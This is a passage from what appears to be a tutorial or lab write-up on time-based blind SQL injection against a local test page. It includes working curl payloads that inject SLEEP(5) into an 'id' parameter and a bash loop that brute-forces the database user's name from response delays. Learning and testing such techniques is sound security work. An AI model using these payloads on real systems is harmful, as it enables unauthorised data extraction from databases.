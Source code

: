 Since `1=1` is always true, the database runs `SLEEP(5)` before returning the result.

The curl output shows `time_total: 4.63,` which is close to the expected five seconds, meaning our injected code actually ran on the database.

If we replace `1=1` with a test, like checking if the first letter of the database user is a, we can tell if it’s true by seeing the delay.

```bash
curl -w "time_total: %{time_total}\n" \
"http://127.0.0.1:8080/item.php?id=1%27%20AND%20IF(SUBSTRING(USER(),1,1)=%27a%27,SLEEP(5),0)%20--%20"

Not found
time_total: 0.005873
```

If the first character of the database user is a, the server will pause for about five seconds before responding.

The response is instant `0.005873`. If anything else response will be instant.

Let's brute-force the first character of the database user by measuring response times.

```bash
for c in {a..z} {0..9} _ @ .; do
  t=$(curl -s -o /dev/null -w "%{time_total}" \
  "http://127.0.0.1:8080/item.php?id=1%27%20AND%20IF(SUBSTRING(USER(),1,1)=%27$c%27,SLEEP(5),0)%20--%20")
  
  if (( $(echo "$t > 4.5" | bc -l) )); then
    echo "First character is: $c"
    break
  fi
done
```

It tries each candidate character and stops when it finds the one that triggers a \~5-second delay.

The `{a..z} {0..9} _ @ .` set covers lowercase letters, digits, and common symbols in usernames, but you can extend it if needed.

![alt text](image.png)

